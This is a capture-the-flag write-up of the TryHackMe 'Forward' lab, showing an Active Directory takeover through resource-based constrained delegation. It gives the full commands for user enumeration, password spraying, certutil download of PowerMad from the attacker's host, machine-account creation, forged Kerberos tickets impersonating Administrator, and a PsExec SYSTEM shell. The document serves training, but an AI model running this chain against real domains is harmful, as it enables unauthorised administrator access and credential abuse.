# Forward — Active Directory / RBCD

> [!NOTE]  
> **Lab:** TryHackMe — Forward  
> **Target:** `10.48.179.139`  
> **Domain:** `ctf.local`  
> **Domain Controller:** `DC01.ctf.local`  
> **Main Technique:** Resource-Based Constrained Delegation (RBCD)  
> **Supporting Techniques:** LDAP enumeration, credential discovery, password spraying, BloodHound, machine-account creation, Kerberos S4U, SMB, PsExec  
> **Final Objective:** Access the Administrator account/context and retrieve the flag.

---

# 1. Initial Reconnaissance

The first step was to identify the services exposed by the target.

```
nmap -sCV -vvv -T5 10.48.179.139 | tee nmap.out
```



### What this does

- `-sC` → runs Nmap's default scripts.
- `-sV` → detects service versions.
- `-vvv` → very verbose output.
- `-T5` → aggressive timing.
- `tee nmap.out` → displays the results and saves them to `nmap.out`.

Because this is an Active Directory lab, services such as **LDAP, SMB, Kerberos, and RDP** are particularly important.

---

# 2. LDAP User Enumeration

Since we had domain credentials for `j.smith`, LDAP could be used to enumerate domain users.

```
netexec ldap 10.48.179.139 -d ctf.local -u 'j.smith' -p 'JSmith\@IT2024' --users | awk '{print $5}'
```
### Why LDAP enumeration is useful

Active Directory stores information about:

- Users
- Groups
- Computers
- Organizational Units
- Service accounts
- Domain information

The `--users` option asks NetExec to enumerate domain users.

The `awk` portion:

```
awk '{print $5}'
```

extracts the username column from the output.

I then saved the usernames into:

```
nano users.txt
```



### Important idea

We now have a list of valid usernames that can be tested against credentials discovered later.

---

# 3. Kerberos SPN Enumeration

Next, I checked for accounts with Service Principal Names (SPNs).

```
impacket-GetUserSPNs 'ctf.local/j.smith\:JSmith\@IT2024' -dc-ip 10.48.179.139 -request
```


### What is an SPN?

An **SPN (Service Principal Name)** identifies a service account associated with a particular service in Active Directory.

For example:

```
MSSQLSvc/server.ctf.local
HTTP/server.ctf.local
CIFS/server.ctf.local
```

`GetUserSPNs` is useful during AD enumeration because accounts associated with SPNs can potentially be investigated for **Kerberoasting**.

In this case, this was part of the enumeration phase before moving toward the eventual RBCD attack.

---

# 4. SMB Enumeration

I checked the SMB shares available on the target without authentication.

```
smbclient -L //10.48.179.139 -N
```



### Why SMB matters

SMB is commonly used in Windows/AD environments for:

- File sharing
- Administrative shares
- Remote administration
- Windows authentication

Important administrative shares often include:

```
ADMIN$
C$
IPC$
```

These become particularly important later when using **PsExec**.

---

# 5. RDP Access as `j.smith`

Using the discovered credentials, I connected to the Windows machine through RDP.

```
xfreerdp /v:10.48.179.139 /u\:j.smith /d\:ctf.local /p:'JSmith\@IT2024' /cert\:ignore /dynamic-resolution
```



### Command breakdown

```
/v:10.48.179.139
```

Target IP.

```
/u:j.smith
```

Username.

```
/d:ctf.local
```

Active Directory domain.

```
/p:'JSmith@IT2024'
```

Password.

```
/cert:ignore
```

Ignore certificate warnings.

```
/dynamic-resolution
```

Automatically adjust the RDP resolution.

---

# 6. Enumerating Windows Users

From the Windows PowerShell session, I enumerated the users on the machine.





This gave additional usernames that could be investigated.

One particularly interesting account discovered during the process was:

```
r.williams
```

---

# 7. Inspecting the KeePass Database

During enumeration, I discovered a KeePass database.

I opened the database using **KeePass**.





The database contained useful credential information, including the help desk account:

```
Username: t.jones
Password: {REDACTED}
```

### Why this was important

Instead of blindly guessing passwords, we now had another credential that could be tested against the domain users we previously enumerated.

This is a common AD attack pattern:

```
Information disclosure
        ↓
Credential discovery
        ↓
Credential validation
        ↓
Potential access to another account
```

---

# 8. Create a Password List

I created a password list containing the credentials discovered during the enumeration.

```
cat pass.txt
```

Contents:

```
{REDACTED}
{REDACTED}
{REDACTED}
{REDACTED}
```



The list could then be tested against the usernames in `users.txt`.

---

# 9. Credential Validation / Password Spraying

I used NetExec to test the usernames against the password list.

```
nxc smb 10.48.179.139 -d ctf.local -u users.txt -p pass.txt --continue-on-success
```



### What this command does

```
nxc smb
```

Uses NetExec against SMB.

```
-d ctf.local
```

Specifies the AD domain.

```
-u users.txt
```

Uses the usernames from `users.txt`.

```
-p pass.txt
```

Tests the passwords from `pass.txt`.

```
--continue-on-success
```

Continues testing even after finding valid credentials.

The important result was that the credentials for:

```
r.williams
```

were valid:

```
r.williams : {REDACTED}
```

This account became particularly important later.

---

# 10. BloodHound Enumeration

I collected the Active Directory information and imported it into **BloodHound**.

The BloodHound data showed an interesting relationship involving:

```
R.WILLIAMS@CTF.LOCAL
```



The important finding was related to:

```
AddAllowedToAct
```

and:

```
DC01.CTF.LOCAL
```

### What does `AddAllowedToAct` mean?

This is related to **Resource-Based Constrained Delegation (RBCD)**.

RBCD uses the Active Directory attribute:

```
msDS-AllowedToActOnBehalfOfOtherIdentity
```

This attribute controls which computer accounts are allowed to act on behalf of users when accessing a particular computer.

In simple terms:

```
Computer A
    |
    | allowed to act on behalf of users
    v
Computer B
```

The BloodHound relationship suggested that `r.williams` could be used to establish an RBCD relationship involving `DC01`.

---

# 11. BloodHound — Linux Abuse

BloodHound provided a **Linux Abuse** section for the discovered relationship.



This provided the direction for the attack.

The general attack idea was:

```
r.williams
     |
     v
Create controlled computer account
     |
     v
Configure RBCD on DC01
     |
     v
Use Kerberos S4U
     |
     v
Impersonate Administrator
```

---

# 12. RDP as `r.williams`

Since the `r.williams` credentials were valid, I logged into the Windows host using that account.

```
xfreerdp /v:10.48.179.139 /u\:r.williams /d\:ctf.local /p:'{REDACTED}' /cert\:ignore /dynamic-resolution
```



At this point, the account we controlled was:

```
CTF\r.williams
```

The next goal was to create a machine account that we could control.

---

# 13. Host PowerMad

I used **PowerMad**, a PowerShell module that can be used to create computer accounts in Active Directory when the current account has the required permissions.

First, I started a temporary HTTP server on Kali.

```
python3 -m http.server 8000
```




---

# 14. Transfer `Powermad.ps1` to Windows

From the Windows PowerShell session, I downloaded the PowerMad script from Kali using `certutil`.

```
certutil -f -urlcache http://192.168.159.204:8000/powermad.ps1 .\Powermad.ps1
```



### Why `certutil`?

`certutil.exe` is a legitimate Windows utility that can retrieve files from a URL.

In this lab it was used simply to transfer the PowerMad script from Kali to the Windows machine.

---

# 15. Import PowerMad

Load the PowerMad module:

```
Import-Module .\Powermad.ps1
```

Then create a new machine account:

```
New-MachineAccount -MachineAccount RBCD -Password $(ConvertTo-SecureString 'Password123456' -AsPlainText -Force) -Verbose
```



### What happened?

PowerMad created a new computer account:

```
RBCD$
```

The `$` is important.

Computer accounts in Active Directory normally have a trailing `$`.

So:

```
RBCD
```

refers to the machine account name we specified, while the AD account is:

```
RBCD$
```

We also know the password because we explicitly created it:

```
Password123456
```

Therefore, we now control:

```
RBCD$ : Password123456
```

---

# 16. Configure Resource-Based Constrained Delegation

Now we configure the RBCD relationship.

From Kali:

```
impacket-rbcd \
  -delegate-from 'RBCD' \
  -delegate-to 'DC01' \
  -action write \
  -dc-ip 10.48.179.139 \
  'ctf.local/r.williams\:{REDACTED}'
```


The important result was:

```
RBCD$ can now impersonate users on DC01$ via S4U2Proxy
```

### What did we change?

We effectively told `DC01`:

```
RBCD$ is allowed to act on behalf of another identity.
```

The relationship can be visualized as:

```
RBCD$
  |
  | msDS-AllowedToActOnBehalfOfOtherIdentity
  |
  v
DC01$
```

This is the core of the **Resource-Based Constrained Delegation** attack.

---

# 17. Request a Kerberos Service Ticket

Now that `RBCD$` is trusted for delegation against `DC01`, we can use Kerberos S4U functionality to impersonate another user.

The target user is:

```
Administrator
```

The target service is CIFS:

```
cifs/DC01.ctf.local
```

Command:

```
impacket-getST \
  -spn 'cifs/DC01.ctf.local' \
  -impersonate Administrator \
  -dc-ip 10.48.179.139 \
  'ctf.local/RBCD$\:Password123456'
```


The resulting ticket was saved as:

```
Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

---

# 18. Understanding S4U2Self and S4U2Proxy

This is the most important part of the attack.

### S4U2Self

The controlled machine account requests a Kerberos service ticket to itself while specifying another user.

Conceptually:

```
RBCD$
   |
   | "I want a ticket representing Administrator"
   v
KDC
```

### S4U2Proxy

The delegated ticket is then used to request a service ticket to the target service.

In our case:

```
Administrator
     |
     v
CIFS/DC01.ctf.local
```

So the overall process is:

```
RBCD$
   |
   | S4U2Self
   v
Administrator identity
   |
   | S4U2Proxy
   v
CIFS/DC01.ctf.local
```

This gave us a Kerberos ticket that could be used to authenticate to the CIFS service on `DC01` as `Administrator`.

---

# 19. Set the Kerberos Credential Cache

The ticket was saved as a `.ccache` file.

Set the `KRB5CCNAME` environment variable:

```
export KRB5CCNAME="$PWD/Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache"
```

Then verify it:

```
klist
```


The important information was:

```
Default principal: Administrator@ctf.local
```

and:

```
cifs/DC01.ctf.local@CTF.LOCAL
```

This confirms that we have a Kerberos ticket for the CIFS service while representing `Administrator`.

---

# 20. Use the Kerberos Ticket with SMB

Now we can use the ticket to access SMB.

```
impacket-smbclient -k -target-ip 10.48.179.139 'ctf.local/Administrator@DC01.ctf.local'
```


The important option is:

```
-k
```

which tells Impacket to use Kerberos authentication.

We did **not** need to know the Administrator password.

---

# 21. Access the `C$` Administrative Share

Inside `impacket-smbclient`, list the available shares:

```
shares
```

Then select:

```
use C$
```

Navigate through the Administrator profile:

```
cd Users
cd Administrator
cd Desktop
```

Then:

```
ls
```


We found:

```
flag.txt
```

Retrieve it:

```
get flag.txt
```

Then from Kali:

```
cat flag.txt
```

The flag was:

```
***{REDACTED}
```

---

# 22. Alternative Method — PsExec

Instead of using the Kerberos ticket for SMB file access, we can also use it with **PsExec**.

```
impacket-psexec -k -no-pass ctf.local/administrator@DC01.ctf.local -dc-ip 10.48.179.139
```


### What PsExec did

The output showed:

```
[*] Found writable share ADMIN$
[*] Uploading file nsrUGMgk.exe
[*] Opening SVCManager on DC01.ctf.local.....
[*] Creating service aDgm on DC01.ctf.local.....
[*] Starting service aDgm.....
```

PsExec used:

1. `ADMIN$` for file transfer.
2. Service Control Manager to create a Windows service.
3. The service to execute commands remotely.

The resulting shell was:

```
C:\Windows\system32>
```

Checking our privileges:

```
whoami
```

returned:

```
nt authority\system
```

So instead of simply accessing the Administrator profile through SMB, this method gave us a **SYSTEM shell**.

---

# 23. Retrieve the Flag Through PsExec

From the SYSTEM shell:

```
cd C:\Users
```

Then:

```
cd Administrator
```

Then:

```
cd Desktop
```

Finally:

```
type flag.txt
```

Output:

```
***{REDACTED}
```

---

# 24. Complete Attack Chain

The entire attack can be summarized as:

```
                     FORWARD
                        │
                        ▼
              Initial Enumeration
                        │
                        ▼
               LDAP User Enumeration
                        │
